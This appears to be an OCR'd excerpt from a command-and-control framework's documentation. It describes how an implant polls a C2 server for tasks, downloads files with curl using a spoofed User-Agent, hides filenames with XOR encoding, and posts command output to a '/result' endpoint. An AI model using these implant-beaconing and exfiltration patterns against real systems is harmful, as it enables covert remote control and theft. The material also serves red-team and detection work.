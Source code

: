**Security Note**: The filename is encrypted using the UNIQUE_XOR_KEY and base64 encoded as the file content, ensuring that both the file content and its name are protected during transmission. This add a OPSEC to the process (Not a big thing but it's better than send raw filename).

**Example CURL**:
```bash
# Get pending tasks
curl -X GET "http://server:port/task" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" 
  
# Download file
curl -X GET "http://server:port/task/<file_hash_id>" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" \
  -H "Content-MD5: <task_guid>"
```
---------------------------------------------------------------------------------------------


## Command Submission Flow (How an Implant sends commands output to C2 Server) - Implant Server

### 1. Result Endpoint (`/result`)

**Purpose**: Submits command execution results to Implant Server.

**Methods**: 
- POST: Submit command output

**Headers Required**:

| Header | Value | Description |
|--------|-------|-------------|
| X-Request-ID | `<implant_guid>` | Unique identifier for the implant |
| User-Agent | `<user_agent>` | Configured user agent |
| X-Correlation-ID |	`<http_allow_key>` |	Authentication key for machine-to-machine
| Content-Type | application/json | Request content type |

**Result Processing Flow**:
```
+----------------+     +----------------+     +----------------+
|    Implant     |     |    Server      |     |   Database     |
+----------------+     +----------------+     +----------------+
        |                     |                      |
        |-- POST /result ---->|                      |
        |                     |-- Store result ----->|
        |                     |                      |
        |<-- 200 OK ----------|                      |
        |                     |                      |
+----------------+     +----------------+     +----------------+
```
